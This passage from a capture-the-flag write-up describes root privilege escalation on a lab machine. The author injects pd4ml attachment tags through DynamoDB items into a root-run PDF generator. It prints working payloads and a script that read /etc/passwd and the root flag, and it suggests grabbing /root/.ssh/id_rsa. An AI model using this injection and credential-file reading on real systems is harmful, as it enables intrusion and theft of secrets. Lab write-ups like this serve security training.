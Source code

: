 Now we can open that `pdf` and voila, we have our value `ThanksForReading` inside the pdf.

To summarize, we now have an app running as root that can create `pdf` files on the system. Because we can create tables and values inside the database, then we can control what's inside the `pdf` files. Now, we are looking for a way to execute a command or gather the root flag. 

I've found a nice article about [pd4ml](https://medium.com/bugbountywriteup/how-i-hacked-redbus-an-online-bus-ticketing-application-24ef5bb083cd).

In the article, it used the `attachment` capability of the `pd4ml` module to read files on the system. Maybe it could be a way to go.  

> <pd4ml:attachment src=”file:///etc/passwd”><pd4ml:attachment>

I made more tests, read the doc and I came out with that command:

> <pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/root.txt</pd4ml:attachment>

All we need to do is replace the `ThanksForReading` value inside our script by the line above.

So, here is my final script.
{% highlight sh %}
python2.7 /usr/bin/aws dynamodb create-table 	--table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
python2.7 /usr/bin/aws dynamodb put-item 		--table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/root.txt</pd4ml:attachment>"}}' --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
curl http://127.0.0.1:8000/index.php/ -X POST -d 'action=get_alerts' -v
{% endhighlight %}

Don't forget to use `watch` before running the script. 

{% highlight sh %}
watch -d "ls -l /var/www/bucket-app/files | cp -r /var/www/bucket-app/files/* $tmp" 
{% endhighlight %}

{% highlight sh %}
cat $tmp/result.pdf
{% endhighlight %}

The root flag is inside the output but you can also download the `pdf` file as we did above and open the attachment manually. 
You can also replace the `/root/root.txt` by `/root/.ssh/id_rsa` to get the ssh private key. 

<strong>Rooted ;)</strong>
